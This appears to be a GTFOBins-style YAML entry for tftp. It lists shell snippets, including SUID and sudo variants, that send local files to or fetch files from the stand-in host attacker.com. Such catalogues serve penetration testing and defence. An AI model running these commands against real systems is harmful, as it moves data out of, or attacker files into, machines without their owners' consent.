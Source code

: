```yaml
---
functions:
  upload:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        put file_to_send
  download:
    - description: Fetch a remote file from a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        get file_to_get
  suid-enabled:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        ./tftp $RHOST
        put file_to_send
  sudo-enabled:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        sudo -E tftp $RHOST
        put file_to_send
---
```

